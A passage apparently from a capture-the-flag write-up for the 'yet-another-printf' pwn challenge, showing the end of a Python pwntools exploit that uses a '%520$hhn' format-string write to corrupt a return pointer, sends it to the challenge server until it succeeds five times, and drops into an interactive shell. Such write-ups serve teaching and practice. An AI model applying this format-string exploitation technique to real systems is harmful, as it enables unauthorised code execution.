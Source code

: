 ```python

    # write via %n to reg1, causing:
    # reg1->reg2->retptr. Overwrite one byte
    payload += '%520$hhn'

    assert len(payload) <= 4096
    return payload

def main(id):
    con = remote(f'{id}-yet-another-printf.challenge.master.cscg.live',ssl=True,port=31337)
    con.recvuntil(b':')
    con.send((exploit()+'\n').encode())
    c = 0
    while True:
        l = con.recvline()
        if b'SUCCESS' in l:
            c += 1
        else:
            print(f'{c} / 5 worked')
            break

        if c == 5:
            con.interactive()
        

while True:
    main('6a03680ec8b48722a3a12049')
```

Lets run it against the challenge server:

![](img/offen.png)

And we got it! After approximately 30 seconds the exploit executes 5 times in a row. Thanks to @lion for this awesome challenge! It was my first non intro pwn :D
